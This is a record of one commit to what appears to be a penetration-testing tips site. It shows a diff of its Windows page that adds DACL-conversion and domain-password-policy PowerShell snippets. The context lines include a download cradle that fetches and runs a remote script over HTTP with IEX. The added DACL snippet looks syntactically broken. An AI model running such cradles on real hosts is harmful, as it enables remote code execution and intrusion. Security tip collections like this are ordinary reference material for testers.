

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/windows.md, in a window 1280 px wide and 900 px high, scrolled down 8688 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Tips for rlwrap and DACL

````diff
--- a/docs/windows.md
+++ b/docs/windows.md
@@ -414,8 +414,17 @@ On the remote host, execute the following PowerShell script:
 IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>:<port>/<script_name.ps1>')
 ```
 
+
 ### Get Domain Password Policy
 
 ```powershell
 $policy = Get-ADDefaultDomainPasswordPolicy -Credential $cred -Server $domain
 ```
+
+
+### Convert DACL
+
+```powershell
+$acl = get-acl HKLM:\System\CurrentControlSet\Services
+ConvertFrom-SddlString -Sddl $acl -type RegistryRights | { Foreach-Object { $.DiscretionaryAcl } }
+```
````
Also changed, not shown: docs/reverse-shell.md (+2 -0 lines).
